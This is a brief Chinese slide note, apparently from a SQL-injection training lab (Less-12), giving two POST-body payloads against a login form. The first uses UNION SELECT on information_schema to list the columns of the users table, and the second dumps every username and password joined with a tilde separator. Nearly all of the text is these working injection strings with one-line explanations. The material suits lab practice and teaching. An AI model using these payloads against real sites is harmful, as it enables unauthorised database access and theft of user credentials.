

# Less-12_02
以下均为POST内容：
8. uname=a") union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)  # &passwd=a&submit=Submit通过users表获得里面的列值：id,username,password
9. uname=a“) union select 1, group_concat(concat_ws(0x7e,username,password)) from security.users  # &passwd=a&submit=Submit 此时就可以得到里面所有的数据。 0x7e代表的就是  ~